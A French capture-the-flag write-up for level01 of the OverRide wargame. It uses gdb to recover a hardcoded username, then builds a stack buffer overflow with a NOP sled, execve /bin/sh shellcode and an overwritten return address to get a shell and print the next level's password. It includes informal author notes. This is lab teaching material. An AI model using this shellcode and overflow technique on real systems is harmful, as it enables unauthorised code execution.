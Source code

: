 # level01

On voit en gros un main qui va appeler `verify_user_name()` et `verify_user_pass()` pour authentifier un utilisateur

Quand on disassemble `verify_user_name()` sur gdb, on voit que cette instruction est responsable de la comparaison:

```as
   0x0804848b <+39>:    repz cmpsb %es:(%edi),%ds:(%esi)```

Si on met un breakpoint et qu'on affiche la valeur de `edi`, on trouve la valeur attendue:

```sh
gdb) b *verify_user_name+39
Breakpoint 1 at 0x804848b
(gdb) r
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: test
verifying username....


Breakpoint 1, 0x0804848b in verify_user_name ()
(gdb) x/s $edi
0x80486a8:     "dat_wil"```

Meme chose pour `verify_user_pass()`
```as
 0x080484bb <+24>:    repz cmpsb %es:(%edi),%ds:(%esi)
 ```

 ```sh
Enter Password: 
test

Breakpoint 2, 0x080484bb in verify_user_pass ()
(gdb) x/s $edi
0x80486b0:     "admin"
```

2:54 PM Loïc: 0x0804a040 adresse du premier buffer

3:03 PM Loïc: offset de 80 sur le 2eme argument   // TODO bah expliquer vu que je suis attardé et que je note pas ceque jai fait

```sh
level01@OverRide:~$ echo $(perl -e 'print "dat_wil" . "\x90"x100 . "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80";') > /tmp/first
level01@OverRide:~$ echo $(perl -e 'print "A"x80 . "\x72\xa0\x04\x08";') > /tmp/second
```

```sh
level01@OverRide:~$ cat /tmp/second - | cat /tmp/first - | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

Dans le premier buffer, j'ai mis le shellcode derrière 100 NOP, dans le 2eme, j'ai mis un padding de 80 puis une adresse a 50 d'offset de l'adresse du premier buffer
